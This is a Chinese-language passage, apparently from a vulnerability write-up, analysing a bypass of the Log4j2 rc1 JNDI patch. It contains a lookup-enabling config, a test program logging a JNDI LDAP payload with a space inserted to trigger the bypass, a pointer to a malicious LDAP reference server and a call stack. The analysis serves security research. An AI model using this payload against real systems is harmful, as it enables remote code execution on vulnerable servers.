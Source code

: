 log4j2 配置文件如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout pattern="%msg{lookups}%n"/>
        </console>
    </appenders>
    <Loggers>
        <Root level="error">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

**对于第二点**，在 JndiManager 类的 lookup 方法中，最后捕获 URISyntaxException 异常的 catch 块没有进行如何处理及返回，这样还是能够执行到代码的最后一行  
因此，只要触发 URISyntaxException 异常，就可以绕过，触发漏洞。触发异常的方式是在 URL 中加入一个空格

### 测试代码：

```plain
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class RC1Bypass {
    public static final Logger logger = LogManager.getLogger(RC1Bypass.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:9999/ test}");

    }
}
```

并且构建一个 LDAP reference 服务，监听 9999 端口，具体代码参考 marshalsec：[https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)

### 函数调用栈

```plain
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:257, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replaceIn:890, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:186, MessagePatternConverter$LookupMessagePatternConverter (org.apache.logging.log4j.core.pattern)
toSerializable:343, PatternLayout$NoFormatPatternSerializer (org.apache.logging.log4j.core.layout)
toText:241, PatternLayout (org.apache.logging.log4j.core.layout)
```